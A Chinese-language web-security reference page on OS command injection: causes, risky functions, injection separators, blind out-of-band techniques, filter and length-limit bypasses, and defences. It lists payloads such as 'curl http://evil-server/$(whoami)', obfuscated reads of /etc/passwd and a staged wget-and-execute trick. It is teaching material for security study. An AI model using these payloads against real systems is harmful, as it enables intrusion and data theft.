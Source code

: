 命令注入
========================================

简介
----------------------------------------
命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

分类
----------------------------------------
- OS命令执行

::

	常见的shell：Windows上的cmd；Unix/Linux上常见的Shell脚本解释器有bash、sh、csh、ksh；

- Web命令执行

::

	PHP:system,exec,passthru,shell_exec,popen,proc_open
	Python:system,popen,subprocess.call,spawn
	Java:java.lang.Runtime.getRuntime().exec(command)

- 数据库命令执行
- 第三方软件命令执行

常见注入方式
----------------------------------------
- 分号分割
- ``||`` ``&&`` ``&`` 分割
- ``|`` 管道符
- ``\r\n`` ``%d0%a0`` 换行 
- 反引号解析
- ``$()`` 替换

无回显技巧
----------------------------------------
- bash反弹shell
- DNS带外数据
- http带外
    - ``curl http://evil-server/$(whoami)``
    - ``wget http://evil-server/$(whoami)``
- 无带外时利用 ``sleep`` 或其他逻辑构造布尔条件

常见绕过方式
----------------------------------------

空格绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

黑名单绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``a=l;b=s;$a$b``
- base64 ``echo "bHM=" | base64 -d``
- ``/?in/?s`` => ``/bin/ls``
- 连接符 ``cat /etc/pass'w'd``
- 未定义的初始化变量 ``cat$x /etc/passwd``

长度限制绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

常用符号  
----------------------------------------

命令分隔符
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``%0a`` / ``%0d`` / ``\n`` / ``\r``
- ``;``
- ``&`` / ``&&``

通配符
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``*`` 0到无穷个任意字符
- ``?`` 一个任意字符
- ``[ ]``  一个在括号内的字符，e.g. ``[abcd]``
- ``[ - ]``  在编码顺序内的所有字符
- ``[^ ]`` 一个不在括号内的字符

防御
----------------------------------------
- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell元字符
    - shell元字符包括 ``#&;`,|*?~<>^()[]{}$\``
